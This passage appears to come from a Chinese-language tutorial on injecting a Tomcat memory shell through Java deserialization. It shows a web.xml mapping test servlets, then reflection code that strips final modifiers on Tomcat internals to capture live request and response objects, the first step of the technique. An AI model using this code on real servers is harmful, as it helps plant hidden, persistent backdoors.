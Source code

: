 **web.xml**

```bash
<servlet>
        <servlet-name>getRequest</servlet-name>
        <servlet-class>memoryshell.UnserShell.getRequest</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>getRequest</servlet-name>
        <url-pattern>/demo</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>cc</servlet-name>
        <servlet-class>memoryshell.UnserShell.CCServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>cc</servlet-name>
        <url-pattern>/cc</url-pattern>
    </servlet-mapping>
```

## 构造反序列化

### **第一步**

将 request 和 response 存入到 lastServicedRequest 和 lastServicedResponse 中，跟上边一样所以直接贴过来了

```bash
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
```
